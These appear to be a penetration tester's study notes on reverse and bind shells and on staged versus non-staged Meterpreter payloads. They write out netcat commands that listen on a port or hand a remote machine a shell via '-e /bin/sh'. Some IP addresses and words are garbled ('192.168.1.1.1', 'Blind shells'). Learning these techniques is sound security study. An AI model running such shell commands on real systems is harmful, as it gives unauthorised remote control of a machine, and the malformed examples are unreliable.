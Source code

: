 ## Reverse versus Bind Shells
* Reverse shell means a victim connects to us. Target is connecting, attackbox is listening.  
  * We are listening on a port (nc -lvp 4444, lvp is listening verbose prot)
  * Victim machine is saying nc 192.168.1.1.1 4444 -e /bin/sh
* Bind shell (we connect to a victim) - we open a port on the machine, and then we connect to it
  * Exploit opens up port, so we connect through nc 192.1682.1.2 4444
  * On victim side, nc -lvp 4444 -e /bin/sh
 * You will be using reverse shells 95% of the time. Blind shells are most likely on external assessments.
   * Externals use bind shells - NAT through public IP address to connect to that port. Reverse, you would have to open up your home network to the world.

  ## Staged versus Non-Staged Payloads
* Non-staged: Sends exploit shellcode all at once. Large in size and won't alway work.
  * Example: windows/meterpreter_reverse_tcp
 * Staged: Sends payloads in stages, can be less table.
   * Example: windows/meterpreter/reverse_tcp
